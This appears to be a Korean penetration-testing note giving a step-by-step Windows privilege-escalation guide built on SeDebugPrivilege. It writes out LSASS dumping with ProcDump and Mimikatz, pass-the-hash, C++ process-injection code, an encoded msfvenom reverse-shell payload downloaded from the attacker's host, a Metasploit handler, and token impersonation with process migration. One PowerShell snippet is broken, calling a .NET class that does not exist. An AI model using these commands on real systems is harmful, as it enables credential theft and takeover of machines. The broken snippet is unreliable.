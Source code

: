 

# SeDebugPrivilege를 이용한 권한 상승 및 자격 증명 탈취 가이드

`SeDebugPrivilege`는 프로세스를 디버깅하기 위해 설계된 권한입니다. 이 권한을 가진 사용자는 모든 프로세스(예: SYSTEM 프로세스)의 메모리에 접근할 수 있으며, ACL(접근 제어 목록)을 무시하고 프로세스를 열 수 있습니다. 이 때문에 LSASS 프로세스 메모리 덤프를 통해 자격 증명(NTLM 해시, Kerberos 티켓)을 추출하거나, 프로세스 주입을 통해 권한 상승(Privilege Escalation)을 수행하는 데 악용될 수 있습니다. 관리자 계정에서 기본적으로 부여되며, 이미 이 권한을 가진 상태에서 SYSTEM 수준으로 상승하거나 민감 정보를 탈취합니다.

https://medium.com/@Strange0/windows-privilege-escalation-abusing-user-privileges-c7532831cb84

### **공격 원리: 프로세스 메모리 접근**

`SeDebugPrivilege`는 OpenProcess API를 통해 모든 프로세스 핸들을 PROCESS_ALL_ACCESS 권한으로 열 수 있게 합니다. 이를 이용해:

1. LSASS(Local Security Authority Subsystem Service) 프로세스의 메모리를 덤프하여 자격 증명을 추출합니다. LSASS는 사용자 해시를 메모리에 저장하므로, 덤프 후 Mimikatz나 비슷한 도구로 분석 가능.
2. 다른 프로세스(예: SYSTEM 프로세스)에 코드를 주입하여 권한 상승이나 백도어 설치.
3. 토큰 복제나 조작으로 더 높은 권한 획득.

이 권한은 프로세스가 잠겨 있어도 메모리 접근을 허용하므로, 직접 파일 복사 대신 메모리 덤프나 주입이 주된 방법입니다.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `SeDebugPrivilege` 권한을 보유하고 있는지 확인합니다.

```powershell
whoami /priv
```

- **확인 사항:** 출력된 목록에 `SeDebugPrivilege`가 `Enabled` 상태로 있는지 확인합니다. 만약 Disabled라면, AdjustTokenPrivileges API를 사용해 활성화할 수 있습니다.

---

### **2. 단계별 공격 절차**

#### **1단계: SeDebugPrivilege 활성화 (필요 시)**
- 권한이 Disabled 상태라면, PowerShell이나 C++ 코드를 사용해 활성화합니다.

```powershell
$token = [System.Security.Principal.WindowsIdentity]::GetCurrent().Token
$priv = New-Object System.Security.AccessControl.Privilege
$priv.Privilege = 'SeDebugPrivilege'
$priv.Enable()
```

#### **2단계: LSASS 메모리 덤프를 통한 자격 증명 추출**
- ProcDump 도구를 사용해 LSASS 프로세스를 덤프합니다. (SysInternals에서 다운로드 가능)
- https://learn.microsoft.com/ko-kr/sysinternals/downloads/procdump

```powershell
# ProcDump 다운로드 및 실행 (예: 공격자 머신에서 업로드)
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

- 덤프 파일을 Mimikatz로 분석하여 해시 추출.

```powershell
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

- 추출된 NTLM 해시를 사용해 Pass-the-Hash 공격으로 SYSTEM 권한 상승.

#### **3단계: 프로세스 주입을 통한 권한 상승**
- C++ 코드를 컴파일해 실행하거나 PowerShell로 프로세스 주입.

```cpp
#include <windows.h>
#include <iostream>

int main() {
    // SeDebugPrivilege 활성화
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken);
    LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, FALSE, &tp, 0, NULL, NULL);
    CloseHandle(hToken);

    // 대상 프로세스 열기 (예: PID 1234의 SYSTEM 프로세스)
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1234);
    if (hProcess) {
        // 쉘코드 주입 예시 (메시지박스 쉘코드)
        unsigned char shellcode[] = { /* 여기에 쉘코드 바이트 배열 삽입 */ };
        LPVOID remoteMem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(hProcess, remoteMem, shellcode, sizeof(shellcode), NULL);
        CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteMem, NULL, 0, NULL);
        CloseHandle(hProcess);
    }
    return 0;
}
```

- 컴파일 후 실행: Visual Studio 사용. 쉘코드는 msfvenom 없이 수동 생성.

- PowerShell 대안:

```powershell
# OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread API 호출 로직
Add-Type -MemberDefinition '[DllImport("kernel32.dll")] public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);' -Namespace Win32 -Name Kernel
# 추가 API 정의 및 주입 코드
```

#### **4단계: 토큰 조작 및 추가 악용**
- 다른 프로세스의 토큰을 복제하여 SYSTEM으로 실행.

```powershell
# Mimikatz 사용
mimikatz.exe
privilege::debug
token::elevate
```

- 파일 유출: 덤프된 파일을 SMB나 HTTP로 공격자 머신으로 전송.

---

### **3. Metasploit 사용**

#### **1단계: Reverse Shell 생성**
- msfvenom 사용해서 생성

```bash title="공격자 Kali"
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```


#### **2단계: Target 서버에서 Reverse Shell 다운로드
- [[파일_전송_종합_가이드]]

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<kali-ip>:8000/shell-name.exe','shell-name.exe')"
```


#### **3단계: msf에서 Reverse Shell 대기**
- msf 셋팅

```bash title=" handler is set up in Metasploit"
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST kali-ip
set LPORT listening-port
run
```


#### **4단계: Target 서버에서 Reverse Shell 실행
- Reverse Shell 실행

```powershell title="Target"
Start-Process "shell-name.exe"
```


#### **5단계: Incognito 로드, List tokens 출력**
- msf 내 Incognito 로드 시킴.
- Incognito 모듈 : 이 모듈은 성공적으로 시스템을 침투한 후, Windows의 사용자 토큰(access token)을 캡처하고 이를 이용해 다른 사용자로 가장(impersonate)할 수 있게 해줍니다. 토큰은 Windows의 인증 메커니즘으로, 이를 훔치면 비밀번호 없이도 다른 계정의 권한을 사용할 수 있습니다.

```bash title="meterpreter"
load incognito
list_tokens -g
```

![[Pasted image 20250820233342.png]]


#### **6단계: 토큰 사칭**
- Administrators 의 토큰을 사칭
- 높은 권한 토큰이 있더라도 권한 있는 사용자의 권한이 없을 수 있습니다(이는 Windows에서 권한을 처리하는 방식 때문입니다. 가장된 토큰이 아닌 프로세스의 기본 토큰을 사용하여 프로세스가 수행할 수 있는 작업 또는 수행할 수 없는 작업을 결정합니다).

```bash title="meterpreter"
impersonate_token "BUILTIN\Administrators"
```



#### **7단계: 프로세스 마이그레이션**
- 올바른 권한이 있는 프로세스로 마이그레이션해야 합니다. 가장 안전한 프로세스는 services.exe 프로세스입니다. 먼저 _ps_ 명령을 사용하여 프로세스를 보고 services.exe 프로세스의 PID를 찾습니다. _migrate PID-OF-PROCESS_ 명령을 사용하여 이 프로세스로 마이그레이션합니다.

```bash title="meterpreter"
# 프로세스 목록에서 services.exe PID 확인 (668)
ps 

migrate 668
```

